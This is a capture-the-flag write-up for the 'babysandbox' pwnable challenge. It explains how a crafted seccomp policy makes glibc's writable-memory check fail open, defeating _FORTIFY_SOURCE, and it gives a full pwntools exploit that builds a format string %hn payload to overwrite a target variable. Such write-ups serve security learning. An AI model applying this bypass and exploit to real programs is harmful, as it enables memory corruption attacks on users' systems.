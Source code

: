 # babysandbox - pwnable challenge

We are given an C++ x86\_64 Linux binary (with no PIE, but with
_FORTIFY_SOURCE mitagations) along with its source code. The program
reads in and installs a seccomp policy from the user, then runs the
following function containing a format string bug:

```c
void vuln() {
    char input[0x100];
    memset(input, 0, sizeof(input));

    __printf_chk(1, "Let's check our mitigation ^_^\n");
    __printf_chk(1, "Protect : %p\n", &target);
    int res = read(0, input, sizeof(input) - 1);
    if (res < 0) {
        __printf_chk(1, "Functionality is broken T_T\n");
        return;
    }
    // We have a dangerous vulnerability here!
    __printf_chk(1, input);

    if (target == 0x1337) {
        __printf_chk(1, "Mitigation failed.. The flag has been exposed T_T\n");
        read_flag();
    }
    else {
        __printf_chk(1, "\nNow we are safe from memory corruption! Thank you ^_^\n");
    }
    return;
}
```

The format string bug is straightforward, but the one issue is that
`_FORTIFY_SOURCE` does not allow respect the `%n` format specifier if the
format string lives in writable memory. The goal of the challenge is to
devise a seccomp policy that disables the `_FORTIFY_SOURCE` mitigation.

Looking at how glibc detects writable memory, we see that it relies on
[opening and reading
`/proc/self/maps`](https://sourceware.org/git/?p=glibc.git;a=blob;f=sysdeps/unix/sysv/linux/readonly-area.c;h=edc68873f6d673b2b973a596a58d7ee4f2abe4cb;hb=HEAD#l34).
We note that this function fails open (i.e. behaves as if the memory is
read-only) if opening `/proc/self/maps` fails with ENOENT or EACCES. We
can arrange for this to happen by providing a seccomp policy which only
allows the `open()` call in `read_flag()` and fails all other `open()`
calls with EACCES. We detect the `read_flag()` call by comparing the
`filename` argument against the pointer to the flag string in the
non-PIE binary.

With the _FORTIFY_SOURCE protection defeated, the format string can be
exploited to trigger the flag printing function.

Full exploit:
```py
#!/usr/bin/env python3
from pwn import *
context.update(arch='amd64', os='linux')
p, u = pack, unpack

# gem install seccomp-tools
policy = b'''
A = sys_number
A == openat ? next : ok
A = args[1]
A == 0x402147 ? ok : next
return ERRNO(13)
ok:
return ALLOW
'''

compiled_policy = subprocess.Popen(['seccomp-tools', 'asm', '-', '-f', 'raw'], stdin=subprocess.PIPE, stdout=subprocess.PIPE).communicate(policy)[0]

payload = b''
payload += p32(len(compiled_policy))
payload += compiled_policy

target = 0x404088

fmt = ''
fmt += '%08x' * 13
fmt += f'%{0x1337-13*8}x'
fmt += '%hn'
fmt = fmt.ljust(64).encode()
fmt += p(target)

payload += fmt

open('payload', 'wb').write(payload)
```
